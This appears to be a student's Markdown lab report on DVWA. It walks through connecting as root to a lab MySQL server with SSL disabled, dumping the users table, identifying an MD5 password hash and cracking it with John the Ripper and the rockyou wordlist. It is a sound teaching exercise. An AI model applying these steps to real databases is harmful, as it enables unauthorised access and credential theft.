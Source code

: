 # Lab 2: Cracking Weak Password Hashes & Exploiting Poor Authentication

*Time Allocated: 3 Hours
Total Marks: 15* 

## OBJECTIVES
1. Find and exploit weak crypto in database login and password storage.

2. Do offline cracking of password hashes found in the database.

3. Learn from real-world crypto mistakes and suggest better ways.

4. Write a report in GitHub (Markdown) and show a short demo.

## LAB TASK
### 1. Service enumeration and initial access
I try to connect to the database using:

 ```
 my sql -h 192.168.100.131
 ```
but it shows error ><

![alt text](screenshot/mysql_error.png)

**WHY DOES THIS HAPPEN?**

This is because  MySQL Server  enforcing SSL/TLS, but the client and server disagree on the encryption protocol version.

**HOW TO FIX IT?**

we need to disabled SSL so we can make a connection. Use:

```
mysql -h 192.168.100.131 -u root --ssl=off
```
*by doing this we have disable SSL and bypasses the error but our credentials are not secured as it is not encrypted*


![alt text](screenshot/mysql-success.png)


### 2. USER ENUMERATION AND WEAK AUTHENTICATION

next step is to gte the information about the database using:

```bash
show databases;
```


![alt text](Screenshot/show-databases.png)



*here we can see the dvwa which are vulnerable*

so we will be needing to look trough dvwa table using:


```bash 
use dvwa;
```


![alt text](screenshot/use-dvwa.png)


we will need to list the table so use:


```bash
show tables;
```


![alt text](screenshot/show-tables.png)



*as we found user's database now we can use it*


try too look for passwords in users database using:


```bash
select * from users;
```


![alt text](screenshot/users-database.png)



*From this output we can crack the password that we choose.In this case i choose admin's passwords which is:*


```bash
5f4dcc3b5aa765d61d8327deb882cf99
```

Now lets try to figure out what kind of hash is that.


### 3. PASSWORD HASH DISCOVERY AND HASH IDENTIFICATION


we will be using hash-identifier tool. To open it using kali type :


```bash 
hash-identifier
```


![alt text](screenshot/hash-id.png)



enter the hash and we will get the result !!



![alt text](screenshot/identifier-result.png)



4. CRACK THE PASSWORD



create file hash.txt and paste the hash in it. Use :


```
echo "5f4dcc3b5aa765d61d8327deb882cf99">hash.txt  
```


![alt text](screenshot/hash-txt.png)



Then we will need to crack it using john the reaper. Use:


```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```


![alt text](screenshot/pass-crack.png)


fnally now we can show the password using:


```
john --show --format=raw-md5 hash.txt 
```


![alt text](screenshot/crack-result.png)



